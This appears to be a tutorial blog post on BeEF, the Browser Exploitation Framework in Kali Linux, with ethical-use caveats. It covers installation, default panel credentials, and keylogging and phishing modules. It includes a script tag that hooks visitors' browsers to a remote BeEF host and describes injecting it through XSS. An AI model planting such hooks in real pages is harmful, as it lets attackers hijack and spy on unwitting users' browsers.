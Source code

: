 ```yaml
---
title: Exploring BeEF A Powerful Kali Linux Tool
linkTitle: BeEF
description: This post will explore BeEF’s functionality, installation, and ethical use cases in cybersecurity.
date: 2024-11-22T16:29:00.893Z
draft: false
tags:
   - kali tools
categories:
   - Kali linux
type: docs
prev: ""
next: ""
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

weight: 300
toc: true
keywords:
   - BeEF
excludeSearch: false
sidebar:
   open: true
featured_image: /images/kalilinux2.webp
url: exploring-beef-powerful-kali-linux-tool
---
```

Web browsers are essential tools for accessing the internet, but they also represent one of the most significant attack vectors for malicious activities. **BeEF (Browser Exploitation Framework)** is a specialized penetration testing tool included in Kali Linux that focuses on leveraging browser vulnerabilities to assess and improve security. This post will explore BeEF’s functionality, installation, and ethical use cases in cybersecurity.

---

## What is BeEF?

BeEF is an open-source security framework designed to test and exploit vulnerabilities in web browsers. It enables penetration testers and security professionals to evaluate the security posture of systems by interacting directly with browsers. Unlike traditional network-focused tools, BeEF shifts attention to client-side vulnerabilities, such as those arising from JavaScript and cross-site scripting (XSS) attacks.

### Core Features

1. **Hooking Mechanism**:
   - BeEF uses a "hook.js" script to connect to a target browser. Once hooked, the browser becomes part of a command and control (C&C) environment where the tester can execute commands and assess vulnerabilities.

2. **Extensive Exploitation Modules**:
   - Over 300 built-in modules allow for tasks like keylogging, phishing, browser redirection, and network reconnaissance.

3. **Customizable Framework**:
   - Security professionals can inject custom JavaScript code to tailor their testing efforts.

4. **Real-Time Interaction**:
   - BeEF provides real-time interaction with compromised browsers via its web-based dashboard.

---

## Installing BeEF on Kali Linux

BeEF is easy to set up and use within Kali Linux. Follow these steps:

1. **Update Your System**:

   ```bash
   sudo apt update && sudo apt upgrade
   ```

2. **Install BeEF**:

   ```bash
   sudo apt install beef-xss
   ```

3. **Start BeEF**:

   ```bash
   service beef-xss start
   ```

4. **Access the Web Interface**:
   - Open a browser and navigate to `http://127.0.0.1:3000/ui/panel`.
   - The default credentials are:
     - Username: `beef`
     - Password: `beef`

5. **Configuration**:
   - Update credentials and configure logging options via the configuration file located in the BeEF directory.

---

## Using BeEF for Ethical Penetration Testing

### 1. **Browser Hooking**

BeEF hooks browsers by embedding the `hook.js` script into a website or application. For example:

```html
<script src="http://<IP>:3000/hook.js"></script>
```

When a user visits a webpage containing this script, their browser becomes "hooked" and visible in the BeEF dashboard.

### 2. **Launching Exploitation Modules**

Once a browser is hooked, testers can:

- Execute phishing campaigns (e.g., fake Google login pages).
- Redirect browsers to malicious or test sites.
- Perform network reconnaissance from the victim’s perspective.

### 3. **XSS Attacks**

If a vulnerable website is identified, testers can inject `hook.js` via an input field or stored script, hooking multiple users who access the compromised site.

---

## Ethical Use Cases

1. **Web Application Security Testing**:
   - Identify XSS vulnerabilities and assess the potential damage of browser-based exploits.

2. **User Awareness Training**:
   - Demonstrate the risks of insecure browsing habits by simulating phishing attacks or browser exploits in controlled environments.

3. **Incident Response**:
   - Analyze browser compromises to improve organizational defenses against real-world threats.

---

## Benefits and Limitations

### Benefits

- Comprehensive assessment of client-side vulnerabilities.
- Real-time interaction with hooked browsers.
- Extensible framework suitable for diverse testing scenarios.

### Limitations

- Limited to browser-based attacks and may not assess network-level vulnerabilities.
- Requires ethical use; misuse can lead to severe legal consequences.

---

## Best Practices for Responsible Use

1. **Obtain Permission**:
   - Only use BeEF on systems or networks where you have explicit authorization.

2. **Document Actions**:
   - Maintain logs of all activities performed during penetration testing.

3. **Ensure Legal Compliance**:
   - Familiarize yourself with local and international laws governing cybersecurity practices.

4. **Use in Isolated Environments**:
   - Avoid unintended harm by conducting tests in isolated or sandboxed systems.

---

## Conclusion

BeEF is a powerful tool in the hands of ethical hackers and cybersecurity professionals, allowing them to uncover and address vulnerabilities in web browsers and web applications. By leveraging its unique capabilities, organizations can enhance their security posture and educate users about the dangers of insecure web browsing. However, its use comes with a responsibility to adhere to ethical guidelines and legal frameworks, ensuring that the tool serves its intended purpose of improving cybersecurity.

For more information and resources, visit the official [BeEF project page](https://beefproject.com) or consult detailed documentation on Kali Linux’s [tool repository](https://www.kali.org/tools/beef-xss/)【18】【20】【22】.
